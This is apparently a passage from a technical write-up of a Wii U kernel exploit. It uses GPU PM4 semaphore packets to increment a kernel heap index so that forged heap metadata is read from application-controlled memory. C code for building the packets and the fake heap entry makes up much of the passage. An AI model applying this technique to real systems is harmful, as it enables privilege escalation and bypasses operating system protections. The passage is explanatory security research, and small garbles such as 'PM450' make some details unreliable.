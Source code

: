 A manipulation of the variable *firstBlockIdx* can be achieved via the
GPU. The function `SetSemaphore` allows to use a semaphore in a given
address in memory. It is possible to use an address in the kernel heap.
Effectively the variable *firstBlockIdx* can be manipulated by
incrementing the semaphore at the corresponding position in the memory.
The system library of the graphics card offers the possibility to use
the function. To bypass operating system checks, a corresponding PM450
package is generated directly and sent to the graphics card via the
system libraries.

A PM4 packet of the type [`MEM_SEMAPHORE`](http://developer.amd.com/
wordpress/media/2013/10/R6xx_R7xx_3D.pdf) is
created, which receives the physical address of the *firstBlockIdx*
variable as destination address. Each of these packets increases the
value of the variable and moves the position from which the
metainformation (TrackingBlockBase) of the next memory block is read.

```
uint32_t* pm4 = (uint32_t*)MEMAllocFromDefaultHeapEx(0x20, 0x1000);
pm4[0] |= 0xC0013900; //PACKET3_MEM_SEMAPHORE
pm4[1] |= kpaddr;     //ADDR_LO = target
pm4[2] |= 0xC0000000; //SEL semaphore signal
pm4[3] |= 0x80000000; //nop
pm4[4] |= 0x80000000; //nop
pm4[5] |= 0x80000000; //nop
pm4[6] |= 0x80000000; //nop
pm4[7] |= 0x80000000; //nop

DCFlushRange(pm4, 0x20);

GX2DirectCallDisplayList((void*)pm4, 8 * sizeof(uint32_t)); // increment value of kpaddr by 0x01000000
GX2DirectCallDisplayList((void*)pm4, 8 * sizeof(uint32_t)); // increment value of kpaddr by 0x01000000

GX2Flush();
```

After enough packets, the meta information is read from a predictable
address that can be manipulated by applications. In this case, the metadata is read from 0xFF200014 instead of 0x1F200014.

```
/* Allocate memory accessible to applications that is stored in the kernel
   is to be used */
uint32_t *drvhax = OSAllocFromSystem(0x4c, 4);

/* Prepare kernel heap entry */
struct TrackingBlockBase *metadata = (struct TrackingBlockBase*) 0x1F200014;
metadata.data = drvhax;
metadata.size = -0x4c; // negative -> is still available
metadata.prevBlockIdx = (uint32_t) -1;
metadata.nextBlockIdx = (uint32_t) -1;
```
